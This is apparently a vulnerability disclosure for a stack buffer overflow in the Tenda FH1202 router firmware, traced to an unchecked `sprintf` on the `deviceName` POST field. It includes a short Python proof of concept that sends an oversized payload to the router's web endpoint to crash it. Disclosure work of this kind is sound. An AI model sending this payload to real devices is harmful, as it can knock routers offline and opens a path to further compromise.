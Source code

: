 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `deviceName` parameter from a POST request. However, since the user has control over the input of `deviceName`, the statement `sprintf(v6, "%s;1", v3);` leads to a buffer overflow. The user-supplied `deviceName` can exceed the capacity of the `v6` array, thus triggering this security vulnerability.

![image-20240319231222137](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231222137.png)

![image-20240319231231748](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231231748.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"deviceId": 1,"deviceName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319231402982](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319231402982.png)